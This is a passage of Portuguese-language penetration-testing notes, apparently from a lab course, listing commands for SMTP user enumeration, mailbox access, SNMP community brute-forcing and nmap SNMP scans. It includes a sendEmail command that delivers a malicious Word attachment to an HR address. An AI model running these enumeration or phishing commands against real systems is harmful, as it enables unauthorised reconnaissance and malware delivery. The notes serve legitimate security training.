     
```
nc -nv 10.11.1.217 25
```

Geralmente funciona melhor com telnet

```
telnet 10.11.1.217 25
```
```
VRFY root
VRFY idontexist
VRFY <username>
user <username>
pass <password>
list

retr 1
retr 2
```


Enumeracao de usuarios

```
smtp-user-enum -M EXPN -U usernames.txt -t <hostname>    
smtp-user-enum -M VRFY -U usernames.txt -t <hostname>
smtp-user-enum -M RCPT -U usernames.txt -t <hostname>
smtp-user-enum -M RCPT -D dominio.com.br -U usernames.txt -t <hostname>
```

Envio de email com conteudo malicioso anexado (attachments). Vide [esta referencia](../Malware/OfficeDocs.md)

```
sendEmail -t hr@dominio.com.br -f atacante@teste.com.br -a arquivo_malicioso.doc -s 10.10.10.10 
```


## Enumeracao SNMP

Bruteforce de nomes de comunidades

```
onesixtyone <hostname> -c communities.txt
```

Checa acesso de escrita

```
snmp-check -w -c public <hostname>
```

Enumeração snmp com nmap

```
sudo nmap -sU -p 161 --script "snmp*" <hostname>
```

snmpwalk
